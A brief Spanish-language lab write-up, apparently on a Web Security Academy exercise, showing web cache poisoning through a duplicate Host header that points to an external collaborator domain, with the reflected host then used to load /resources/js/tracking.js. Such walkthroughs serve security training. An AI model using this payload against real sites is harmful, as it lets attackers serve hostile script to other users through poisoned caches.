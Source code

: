 ```yaml
---
layout: default
title: 3 - Web cache poisoning via ambiguous requests
---
```

Nos tira 200 OK y vemos la segunda cabecera Host reflejada en muchos sitios
```HTTP
GET /login HTTP/1.1
Host: 0a48006204eae382846fb90000a600dc.h1-web-security-academy.net
Host: wvv5qww5rhbs8njejymz2pr7mysvgmfa4.oastify.com
```

Nos llega una peticion para cargar el recurso :

```
/resources/js/tracking.js
```

